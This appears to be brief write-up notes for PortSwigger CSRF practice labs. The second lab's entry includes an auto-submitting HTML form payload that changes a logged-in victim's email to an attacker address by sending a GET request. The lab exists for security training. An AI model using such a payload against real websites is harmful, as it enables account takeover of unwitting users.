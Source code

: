 # [1. Lab: CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)

# [2. Lab: CSRF where token validation depends on request method](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-request-method)

This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies **defenses to certain types of requests**.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

```js
<form action="https://0a99000404688a6081f44d2f002800b2.web-security-academy.net/my-account/change-email?email=2332%4022&csrf=zYz8BGtIsz8YghTsu3R1RqL2Nee09Rnc" method="GET">
<input type="hidden" name="email" value="attacker2@evil-user.net" /></form>
<script> document.forms[0].submit(); </script>
```

# [3. Lab: CSRF where token validation depends on token being present](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-token-being-present)
